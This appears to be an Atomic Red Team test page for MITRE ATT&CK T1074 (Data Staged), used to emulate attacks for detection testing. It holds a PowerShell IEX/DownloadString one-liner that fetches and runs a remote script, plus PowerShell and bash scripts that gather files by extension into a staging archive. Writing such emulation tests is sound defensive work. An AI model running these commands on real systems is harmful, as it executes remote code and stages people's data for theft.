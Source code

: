 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as Data Compressed or Data Encrypted.

Interactive command shells may be used, and common functionality within cmd and bash may be used to copy data into a staging location.

Detection: Processes that appear to be reading files from disparate locations and writing them to the same directory or file may be an indication of data being staged, especially if they are suspected of performing encryption or compression on the files.

Monitor processes and command-line arguments for actions that could be taken to collect and combine files. Remote access tools with built-in features may interact directly with the Windows API to gather and copy to a location. Data may also be acquired and staged through Windows system management tools such as Windows Management Instrumentation and PowerShell.

Platforms: Linux, macOS, Windows

Data Sources: File monitoring, Process monitoring, Process command-line parameters</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)
- [Atomic Test #2 - Collect and Compress all file types](#atomic-test-2---collect-and-compress-all-file-types)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.bat')" > c:\windows\pi.log
```
<br/>
<hr/>
<br/>

## Atomic Test #2 - Collect and Compress all file types
Collect all specified file extensions recursively from a specified file path on the target machine. All located files are copied into a temporary location before being compressed.

**Supported Platforms:**
- Windows
- Linux


#### Run it with `powershell`!
Note:
- ```{{ path }}```: requires a default path to start recursive search from
- ```{{ extension }}```: requires a file extension to search for

```
$FolderPath = '{{ path }}'
$FileExtension = '{{ extension }}'

New-Item -ItemType directory -Path C:\temp\staging

function TestPath()  
{ 
    $FileExists = Test-Path $FolderPath 
    If ($FileExists -eq $True)  
    { 
        Return $true 
    } 
    Else  
    { 
        Return $false 
    } 
}

function ZipFiles()
{
   Add-Type -Assembly System.IO.Compression.FileSystem
   $compressionLevel = [System.IO.Compression.CompressionLevel]::Optimal
   [System.IO.Compression.ZipFile]::CreateFromDirectory("C:\temp\staging",
        "C:\temp\staging.zip", $compressionLevel, $false)
}
 
$Result = (TestPath($FolderPath)); 
 
If ($Result) 
{ 
    $Dir = get-childitem $FolderPath -Recurse -ErrorAction Ignore 
    $List = $Dir | where {$_.extension -eq $FileExtension} 
    $List | Copy-Item -Destination C:\temp\staging\ -ErrorAction Ignore
} 
else 
{ 
    "Folder path is incorrect." 
}

ZipFiles

Remove-Item -Recurse -Force C:\temp\staging

```

#### Run it with `bash`!
Note:
- ```{{ path }}```: requires a default path to start recursive search from
- ```{{ extension }}```: requires a file extension to search for

```
mkdir -p /tmp/staging
find {{ path }} -name '*{{ extension }}' -exec cp -prv '{}' '/tmp/staging' ';'
tar -zcvf /tmp/staging.tar.gz /tmp/staging/
rm -rf /tmp/staging
```
<br/>
